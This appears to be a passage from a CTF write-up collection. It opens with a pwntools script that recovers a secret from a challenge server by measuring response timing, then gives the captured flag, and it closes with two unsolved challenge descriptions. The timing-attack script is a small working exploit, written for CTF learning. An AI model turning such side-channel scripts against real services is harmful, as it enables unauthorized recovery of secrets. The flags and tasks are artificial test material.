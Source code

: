 ```py
from pwn import *
import time
import math

r = remote("oreos.imaginary.ml", 3000)
r.recv()
r.sendline(b"2")
r.recv()

ans = ""
for i in range(8):
    r.sendline(b"z")
    startTime = time.time()
    r.recv()
    endTime = time.time()
    ans += str(hex(math.floor((endTime - startTime)/0.3 - 1))[2:])
    print(ans)

for i in range(8):
    r.sendline(ans[i].encode())
    print(r.recv())
```

It's worth noting that this code does not work all the time. It's most likely because the startTime and endTime are sometimes off by just enough to throw off a character (like an 8 becomes a 9). The script still gets the job done, and after running it a few times, I got the flag.

`ictf{t!m!ng_!5_3v3ry+h!ng}`

---

# Ask Hell

> Points: 135 | Category: Reversing | Author: A~Z

My friend speaks the language of gods, but when I told him I didn't like it he stole my flag! Please help me retrieve it ><

https://imaginary.ml/r/131E-main.hs

---

---

# IRC drama

> Points: 50 | Category: Misc | Author: Robin_Jadoul

So freenode is dead you say?
Just find me on `##imaginaryctf` on Libera in that case.

It's dangerous out there, take this. CTF player obtained `gimmeflagpls`

---